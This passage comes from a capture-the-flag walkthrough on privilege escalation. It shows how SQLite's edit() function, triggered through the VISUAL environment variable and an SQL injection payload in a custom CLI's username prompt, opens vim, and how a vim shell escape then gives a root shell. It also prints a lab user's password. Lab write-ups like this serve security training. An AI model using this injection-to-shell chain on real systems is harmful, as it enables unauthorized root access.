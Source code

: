 
### Via SQLi / edit

This is method involves abusing the `edit` [SQL
function](https://www.sqlite.org/draft/cli.html#the_edit_sql_function). This
function allows an interactive user to specify a binary that will apply to
each value from a column as they are used.

> If the second argument is omitted, the VISUAL environment variable is used.

So if I can set this environment variable, it will call a program for me.

Locally I can try this on the `db.sqlite3` file on my local system:

    
    
    oxdf@hacky$ VISUAL=cat sqlite3 db.sqlite3 'select "1" from accounts_customuser where username=""&edit(username)';
    admincrisDiseljamesMasonmartinCruztomHands
    

By setting `VISUAL` to `cat`, it calls `cat` on each column one by one as part
of the query.

I don’t need to bypass the filter at all, as none of these characters are
removed.

I’ll start the CLI and authenticate:

    
    
    tom@drive:~$ VISUAL=/usr/bin/vim ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    moriarty
    Enter password for moriarty:
    findMeIfY0uC@nMr.Holmz!
    Welcome...!
    
    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:
    

I’ll select option 5, and give it my injection:

    
    
    Select option: 5
    Enter username to activate account: "&edit(username);-- -
    

When I hit enter, it open `vim` with the text “admin”. I’ll enter
`:!/bin/bash` to execute `bash` from within `vim`, and it drops to a root
shell:
